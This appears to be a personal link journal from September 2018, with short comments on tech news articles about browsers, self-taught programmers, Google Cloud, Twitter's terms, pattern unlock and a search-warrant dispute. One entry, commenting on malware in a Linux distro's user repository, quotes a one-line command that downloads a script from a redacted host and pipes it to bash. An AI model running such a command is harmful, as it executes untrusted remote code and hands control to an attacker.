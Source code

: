 system secure and interoperable.

20180924/https://www.howtogeek.com/334594/stop-complaining-that-your-browser-uses-lots-of-ram-its-a-good-thing/

Self-taught programmers?  Don't worry, they're are just as good as
degreed ones when they qualify by other measures, to summarize.

20180924/https://www.forbes.com/sites/quora/2018/07/13/theres-good-news-for-self-taught-programmers-when-it-comes-to-job-performance/#5b6e75895b0f

Google Cloud Platform sent hash threat to delete a customer's cloud
services account if they didn't provide requested information within
three days.  The agreed problem?  Not enough human customer service
representatives.  A classic among Google, a company with a reputation
for running everything via machines and machine learning.

20180924/https://amp.businessinsider.com/google-cloud-threatens-to-automatically-delete-business-app-2018-7

An article about great skills in developers that everyone is
overlooking.  Very interesting article point!  Spending time on Reddit
and Twitter?  Is that time wasted?  Actually not.  Some of the things
you may learn that you didn't know existed from spending time on those
sites is more valuable than the things you do know.

20180924/https://medium.com/comparethemarket/everybody-is-overlooking-great-developers-lets-change-that-ddf97e408060

Very interesting!  On Unix, a fetch to a command-and-control server
can be created with one line of shell code?  Yes.

    curl -s https://[redacted]/~x|bash -&

Be careful about "user repositories" on distros as they can contain
malware.

20180924/https://nakedsecurity.sophos.com/2018/07/11/another-linux-distro-poisoned-with-malware/

So what is the licensing on the content posted to Twitter?  Well, this
is interesting.  The Twitter Terms of Service say that the author owns
their post contents, but they grant Twitter a license to reproduce it
for the sake of running Twitter services, without any expectation that
Twitter will provide compensation to the author.

Periscope I hear mentioned too?  Oh, that's some sort of TV streaming
service on behalf of Twitter.

20180925/https://twitter.com/en/tos

Don't use pattern unlock, people can easily see it and remember it,
unlike passcodes that are more difficult to see and remember.

20180925/https://gizmodo.com/for-the-love-of-all-that-is-holy-stop-using-pattern-un-1818672002

Google being reluctant to comply with search warrant, Justice
Department "goes nuclear" on them.

20180925/https://arstechnica.com/tech-policy/2017/09/justice-department-goes-nuclear-on-google-in-search-warrant-fight/
